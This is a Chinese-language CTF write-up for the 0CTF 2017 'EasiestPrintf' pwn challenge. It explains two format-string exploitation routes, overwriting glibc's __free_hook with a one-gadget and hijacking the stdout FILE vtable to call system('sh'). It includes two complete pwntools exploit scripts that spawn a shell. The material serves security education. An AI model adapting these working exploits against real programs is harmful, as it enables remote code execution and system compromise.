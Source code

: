 ```yaml
---
title: 20170CTF
tags:
  - PWN
categories: []
date: 2017-03-27 20:56:21
---
```


## EasiestPrintf

简单的程序，但是始终找不到利用方法。看了wp，给大佬们跪了，好多奇技淫巧。

顺便吐吐槽新的`pwntools`的大升级。

### 第一个思路

我们`checksec`之后发现`got`是不能重写的。

```
[!] Couldn't find relocations against PLT to get symbols
[*] '/home/ubuntu/ctf-problem/20170ctf/pwn/easiestPrintf/EasiestPrintf'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

> Change the value of `__malloc_hook` or `__free_hook` and find a way to trigger them in printf.

事实上，在`printf`函数中，当我们打印的字符串长度过长时，会调用`malloc`和`free`的函数。

```
vfprintf.c
if (width >= WORK_BUFFER_SIZE - 32)
	  {
	    /* We have to use a special buffer.  The "32" is just a safe
	       bet for all the output which is not counted in the width.  */
	    size_t needed = ((size_t) width + 32) * sizeof (CHAR_T);
	    if (__libc_use_alloca (needed))
	      workend = (CHAR_T *) alloca (needed) + width + 32;
	    else
	      {
		workstart = (CHAR_T *) malloc (needed);
		if (workstart == NULL)
		  {
		    done = -1;
		    goto all_done;
		  }
		workend = workstart + width + 32;
	      }
	  }
```

> 1. Leak the libc address from the arbitrary read.
2. Construct a format string with
	the `%hhn` trick to modify `__free_hook` to the one-gadget.
	`%100000c` to trigger malloc and free.
    
> I choose `__free_hook` instead of `__malloc_hook` because the address of `__malloc_hook` contains a `\x0a` byte which will break the reading of the input.

1. 用格式化字符串修改`__free_hook`，使其指向一个gadget
2. 用`%100000c`去除法`malloc`

**事实上，题目给出的`libc`的版本是早于`libc.2.23.so`的，所以存在`*0x3E297`这样一个`execve('/bin/sh')`，在之后版本的`libc`中全部都吧`/bin/sh`给去掉了**

> 在GNU C库中，可以通过指定合适的钩子函数，来修改`malloc`、`relloc`、`free`的行为，通过使用这些钩子，可以帮助我们对动态的内存分配进行调试。 在`malloc.h`中定义了以下钩子变量：
`__malloc_hook`
该变量是`malloc`被调用时所使用的函数的指针，类型为`void *function (size_t size, const void *caller)`，`caller`的值表示`malloc`被调用时在栈上的返回地址，该值可以用来跟踪程序的内存消耗情况。
`__realloc_hook`
与`__malloc_hook`类似，该变量是realloc被调用时所使用的函数的指针，类型为`void *function (void *ptr, size_t size, const void *caller)`
`__free_hook`
该变量是free被调用时所使用的函数的指针，类型为`void function (void *ptr, const void *caller)`
`__memalign_hook`
该变量是`aligned_alloc`,` memalign`, `posix_memalign`和`valloc`所使用的函数的指针，类型为`void *function (size_t alignment, size_t size, const void *caller)`
`__malloc_initialize_hook`
该变量是初始化malloc系列函数的函数指针，该函数仅被调用一次。 如：
`void (*__malloc_initialize_hook) (void) = my_init_hook;`

> 这些钩子函数在较新版本的gcc中已经被废弃了。 那么还有别的办法吗？ 注入`malloc/realloc/free`调试函数的一个可行的方式是采用自己的库来`export`这些函数，C链接规则是明确按顺序来的，因此如果两个库提供了相同的函数，第一个指定的将被使用。 在unix系统上，则可以使用`LD_PRELOAD`机制在加载时注入自己的`malloc`函数。 

最终的exp
```
from pwn import *

context.log_level = 'critical'

libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('./EasiestPrintf')

read_got = elf.symbols['_GLOBAL_OFFSET_TABLE_'] + 12
libc.symbols['one_gadget'] = 0x3E297

p = process('./EasiestPrintf')

def exec_fmt(payload):
    p = elf.process(env = {'LD_PRELOAD': libc.path})
    p.sendline(str(read_got))
    p.recvuntil('Good Bye\n')
    p.sendline(payload)
    return p.recvall()

fmt = FmtStr(exec_fmt)
log.critical('offset: ' + str(fmt.offset))

p = process('./EasiestPrintf')
print p.recvline()

p.sendline(str(read_got))
data = p.recvline()
print data
read_addr = int(data, 16)
libc.address = read_addr - libc.symbols['read']
log.critical('libc_base : ', hex(libc.address))

print p.recvline()
p.sendline(fmtstr_payload(fmt.offset, {libc.symbols['__free_hook']: libc.symbols['one_gadget']}) + '%100000c')
p.interactive()
```

### 第二个思路

> 程序在进行一次任意地址读之后有一次格式化字符串的机会，之后直接`exi`t。在程序启用`Full RELRO`的情况下，选择覆盖`libc`中的`_IO_2_1_stdout_`结构的虚表，因为`printf`在将所有输入解析之后会调用其中的某个函数进行输出，我们可以其改为`system`，而这个结构自身会作为参数传入，覆盖虚表之后将一个`sh\0\0`写到整个结构头部即可。

```
from pwn import *

DEBUG = 1

elf = ELF('./EasiestPrintf')

addr_stdout = 0x0804a044

if DEBUG:
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    p = process('./EasiestPrintf')
    context(log_level = 'critical')
else:
    # p = remote('202.120.7.210', 12321)
    libc = ELF('./libc.so.6')

def makeio():
    return remote('202.120.7.210', 12321)

def get_addr(addr):
    p.recvuntil('read:\n')
    p.sendline(str(addr))
    addr = p.recvuntil('\n')[:-1]
    addr = int(addr, 16)
    print 'stdout =>', hex(addr)
    return addr

if __name__ == '__main__':
    stdout_addr = get_addr(addr_stdout)
    libc.address = stdout_addr - libc.symbols['_IO_2_1_stdout_']
    system_addr = libc.symbols['system']
    stdout_vtable_addr = stdout_addr + 0x94
    str_sh = u32('sh\x00\x00')
    x1 = system_addr
    x1_hi, x1_lo = x1 >> 16, x1 & 0xFFFF
    x2 = stdout_addr - 4 - 0x1c
    x2_hi, x2_lo = x2 >> 16, x2 & 0xFFFF
 
    print p.recvuntil('Good Bye\n')

    # libc_stdout = 'sh\x00\x00'
    # libc_stdout-4 = &system
    # libc_stdout_vtable+0x1c = &(libc_stdout-4)
    buf = p32(stdout_addr) + p32(stdout_addr-4) + p32(stdout_addr-2) + p32(stdout_vtable_addr)
    buf += '%' + str(str_sh-16) + 'c%7$n'
    buf += '%' + str(0x10000+x1_lo-str_sh) + 'c%8$hn'
    buf += '%' + str(0x10000+x1_hi-x1_lo) + 'c%9$hn'
    buf += '%' + str(0x10000+x2_lo-x1_hi) + 'c%10$hn'

    p.sendline(buf)
    p.interactive()
```